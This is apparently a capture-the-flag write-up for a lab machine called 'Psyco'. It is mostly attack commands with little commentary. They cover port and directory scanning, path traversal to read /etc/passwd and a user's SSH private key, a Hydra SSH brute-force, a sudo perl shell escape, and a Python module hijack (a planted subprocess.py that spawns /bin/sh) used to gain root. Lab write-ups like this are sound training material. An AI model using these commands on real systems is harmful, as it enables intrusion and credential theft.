

# Psyco

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Exploring Web Page




gobuster dir -u http://172.17.0.2/ -t 300 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -r -x php 


sudo wfuzz -c --hl=62 -w SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://172.17.0.2/index.php?FUZZ=../../../../../../../../../etc/passwd'


curl -s --path-as-is "http://172.17.0.2/index.php?secret=../../../../../../../../../../../../etc/passwd"


sudo hydra -l vaxei -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I


curl -s --path-as-is "http://172.17.0.2/index.php?secret=../../../../../../../../../../../../home/vaxei/.ssh/id_rsa"


sudo ssh -i id_rsa vaxei@172.17.0.2


sudo -u luisillo perl -e 'exec "/bin/sh";'


```python
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()

```


Creamos el archivo subprocess.py

```python
import os; os.system("/bin/sh")
```

sudo -u root /usr/bin/python3 /opt/paw.py

